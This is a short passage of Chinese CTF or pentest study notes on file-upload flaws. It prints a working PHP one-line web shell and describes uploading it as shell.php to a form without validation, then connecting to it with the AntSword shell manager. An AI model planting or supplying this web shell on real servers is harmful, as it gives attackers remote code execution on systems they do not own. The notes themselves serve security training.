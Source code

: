![](./img/xss4.png)


### 文件上传

- 浏览器插件: ``Wappalyzer``:能够检测当前页面的基础环境，如中间件、前后端语言等。

php常用一句话木马:``<?php eval(@$_POST['a']); ?>``
### 无验证

**判断语言环境方式**
1. 看文件后缀
2. 插件检测(Wappalyzer)
3. 响应包判断(X-Powered-By: PHP/7.3.14)

**解题思路**

本地制作shell.php，内容为``<?php eval(@$_POST['a']); ?>``

蚁剑连接

![](./img/upload1.png)
